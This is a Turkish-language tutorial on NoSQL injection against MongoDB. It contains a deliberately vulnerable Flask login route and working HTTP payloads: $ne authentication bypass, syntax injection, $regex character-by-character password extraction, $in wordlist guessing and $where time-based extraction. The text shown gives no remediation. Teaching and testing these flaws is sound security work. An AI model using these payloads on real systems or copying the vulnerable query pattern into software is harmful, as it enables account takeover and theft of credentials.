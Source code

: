 # NoSQL Injection
NoSQL Injection, web uygulamalarında kullanılan MongoDB gibi NoSQL tabanlı veritabanlarının kullanıcı girdisini doğru şekilde filtrelemeden sorgulara dahil etmesi sonucu ortaya çıkan kritik bir güvenlik açığıdır. SQL Injection ile benzer mantığa sahiptir, ancak klasik SQL yerine JSON benzeri query yapıları manipüle edilir. Bu zafiyet sayesinde saldırgan authentication bypass, yetkisiz veri erişimi, veri manipülasyonu ve bazı durumlarda remote code execution gerçekleştirebilir.

NoSQL Injection genellikle şu koşullarda görülür:
- Kullanıcı girdisinin doğrudan MongoDB query objesine eklenmesi
- Query operatörlerinin ($ne, $gt, $regex, $where) filtrelenmemesi

Sonuç: Saldırgan login atlatma, hassas verileri çekme, yetki yükseltme gibi saldırılar gerçekleştirebilir.

# NoSQL Injection Saldırısının İşleyişi
Aşağıda, NoSQL Injection zafiyetine sahip basit bir Flask + PyMongo uygulaması örneği bulunmaktadır:
```py
from flask import Flask, request
from pymongo import MongoClient

app = Flask(__name__)
client = MongoClient("mongodb://localhost:27017/")
db = client["usersdb"]
users = db["users"]

@app.route('/login', methods=['POST'])
def login():
    username = request.form.get('username')
    password = request.form.get('password')
    
    # Kullanıcı girdisi direkt olarak Mongo query'e aktarılıyor
    user = users.find_one({"username": username, "password": password})
    
    if user:
        return "Login başarılı! Hoşgeldin " + user['username']
    else:
        return "Login başarısız!"
    
if __name__ == "__main__":
    app.run(debug=True)
```

Geliştirici, normalde girişin şu şekilde çalışacağını varsayar:
```http
POST /login
username=baran&password=123456
```

Ancak saldırgan aşağıdaki payload ile authentication atlatabilir:
```http
POST /login
username[$ne]=foo&password[$ne]=bar
```

MongoDB query şu hale gelir:
```
{ "username": { "$ne": "foo" }, "password": { "$ne": "bar" } }
```

Bu sorgu, “username foo değil ve password bar değil” koşulunu sağlayan herhangi bir kullanıcıyı döndürecektir.

# NoSQL Syntax Injection
Syntax Injection, uygulamanın beklediği basit string değer yerine doğrudan query syntax’ını manipüle edecek input verilmesidir.
Klasik örnek:
```
POST /login
username=baran' || '1'=='1&password=foo
```

Eğer backend tarafında kullanıcı girdisi string escape edilmeden sorguya ekleniyorsa, NoSQL query objesi şu hale gelebilir:
```
{ "username": "baran' || '1'=='1", "password": "foo" }
```

# NoSQL Operator Injection
Operator Injection, NoSQL’in desteklediği özel operatörleri ($ne, $gt, $in, $regex, $where) parametre içine enjekte ederek sorguyu değiştirmektir.
Örnek payload:
```
POST /login
username[$ne]=foo&password[$ne]=bar
```

Sorgu şu hale gelir:
```
{ "username": { "$ne": "foo" }, "password": { "$ne": "bar" } }
```

## Exploiting Syntax Injection to Extract Data
Syntax Injection, genellikle hata mesajları veya response farkları üzerinden data extraction için kullanılabilir.

Örnek senaryo:
```
username=admin' && this.password[0]=='a' || '1'=='1&password=foo
```

Eğer backend eval() veya where benzeri bir query parse ediyorsa, saldırgan password alanının karakterlerini boolean tabanlı testlerle brute-force edebilir.

## Exploiting NoSQL Operator Injection to Extract Data
Operator Injection, özellikle $regex ve $where kullanılarak data extraction için güçlüdür.

### Regex tabanlı brute force
```
username=admin&password[$regex]=^a.*
```

Eğer şifre “a” ile başlıyorsa login başarılı.

Sonraki adım:
```
username=admin&password[$regex]=^ab.*
```

Yanıt farklılığı şifre karakterlerini ortaya çıkarır.

### $in Operatörü
```
username=admin&password[$in]=["123456","password","qwerty"]
```

Şifre hangi listedeyse login başarılı olur. Wordlist ile brute force hızlanır.

### $where tabanlı zaman ölçümü
```
username=admin&password[$where]=function(){ if(this.password.charAt(0)=='a'){ sleep(5000); } return true; }
```

Yanıt gecikmesi üzerinden password ilk karakteri çıkarılabilir.